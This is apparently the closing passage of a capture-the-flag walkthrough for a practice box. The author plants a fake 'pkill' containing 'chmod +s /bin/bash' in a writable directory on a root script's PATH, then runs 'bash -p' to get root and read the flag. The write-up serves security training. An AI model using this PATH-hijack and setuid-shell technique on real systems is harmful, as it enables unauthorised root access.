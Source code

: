 ```

```
and this path seems to be interesting
```
/home/lachlan/bin
```
All i have to do is to move to this `/home/lachlan/bin` and put our malicious pkill

```
lachlan@b2r:~$ cd /home/lachlan/bin
cd /home/lachlan/bin
lachlan@b2r:~/bin$ 

lachlan@b2r:~/bin$ ls
ls
backup.sh
lachlan@b2r:~/bin$ echo -n "chmod +s /bin/bash" > pkill
echo -n "chmod +s /bin/bash" > pkill
lachlan@b2r:~/bin$ chmod +x pkill
chmod +x pkill

```
After awhile
```
lachlan@b2r:~$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
lachlan@b2r:~$ /bin/bash -p
/bin/bash -p
id
uid=1001(lachlan) gid=1001(lachlan) euid=0(root) egid=0(root) groups=0(root),1001(lachlan)
cd /root
ls
root.txt
snap
cat root.txt
[REDACTED]


```
we now a root user

You can also download <a href="https://github.com/blackninja23/blackninja23.github.io/blob/main/assets/img/hackervshackerTHM/walkthrough.pdf">here</a>

Greeting from <a href="https://twitter.com/blackninja233">blackninja23</a>

<img src="https://blackninja23.github.io/assets/img/bitemeTHM/throw.gif">
